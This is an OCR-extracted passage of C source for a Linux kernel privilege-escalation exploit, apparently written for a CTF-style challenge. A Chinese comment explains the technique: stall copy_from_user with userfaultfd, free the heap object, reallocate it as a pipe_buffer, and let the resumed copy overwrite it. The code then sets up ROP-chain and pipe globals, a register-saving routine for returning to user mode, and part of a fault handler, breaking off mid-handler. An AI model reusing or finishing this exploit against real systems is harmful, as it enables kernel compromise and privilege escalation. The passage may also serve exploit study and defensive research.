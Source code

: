 ```c
// 我们在用 userfaultfd 做啥：在 copy_from_user 卡住时，先把堆给 free 掉然后再申请成可以利用的 pipe_buffer 结构体 此时 copy_from_user 接下来进行的时候就相当于可以改到该结构体

size_t kernel_base;

int fd;
char checkbuf[0x30];
char data[0x400];
int ptmx[0x100];
long long ptr;
int pipe_fd[50][2];
size_t ropchain[100];
size_t pipe_buf[0x200];
size_t user_cs, user_ss, user_rflags, user_rsp;
char c2[48];
void save_status(void)
{
    asm volatile ("mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );

    puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
}


static void *Handler(void *arg)
{
    static struct uffd_msg msg;
    static int fault_cnt = 0;
    long uffd;

    struct uffdio_copy uc;
    ssize_t nread;

    uffd = (long)arg;
    while (1)
    {
        /* See what poll() tells us about the userfaultfd. */
        struct pollfd pollfd;
        int nready;
        pollfd.fd = uffd;
        pollfd.events = POLLIN;
        nready = poll(&pollfd, 1, -1);

        if (nready == -1)
        {
            printf("[-] poll");
            exit(-1);
        }
        /* Read an event from the userfaultfd. */
        nread = read(uffd, &msg, sizeof(msg));

        if (nread == 0)
        {
            printf("[-] read");
            exit(-1);
        }
        if (nread == -1)
        {
            printf("[-] read");
```